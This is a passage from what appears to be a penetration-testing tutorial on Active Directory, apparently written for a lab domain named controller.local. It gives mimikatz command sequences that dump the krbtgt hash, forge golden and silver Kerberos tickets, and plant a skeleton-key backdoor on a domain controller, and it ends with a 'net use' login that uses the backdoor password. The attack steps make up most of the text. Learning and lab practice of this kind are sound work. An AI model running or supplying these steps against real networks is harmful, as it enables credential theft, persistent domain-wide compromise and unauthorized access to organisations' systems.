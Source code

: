 ```
# Dump the krbtgt hash
.\mimikatz.exe
privilege::debug
# dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account
lsadump::lsa /inject /name:krbtgt
# Create golden ticket
kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
# Create silver ticket
kerberos::golden /user:Administrator /domain:controller.local /sid:<sid-of-service-account> /krbtgt:<service-NTLM-hash> /id:<id>
#<id> can be 1103
# Use the Golden/Silver Ticket to access other machines
# open a new elevated command prompt with the given ticket in mimikatz
misc::cmd
```

> Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.

### Skeleton key attacks using mimikatz (Kerberos Backdoors)

Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password. The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. The default hash for a mimikatz skeleton key is `60BA4FCADC466C7A033C178194C03DF6` which makes the password -"`mimikatz`".

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

#### mimikatz

```
.\mimikatz.exe
privilege::debug
misc::skeleton
# Then in CMD
# share will now be accessible without the need for the Administrators password
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```

> The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques.
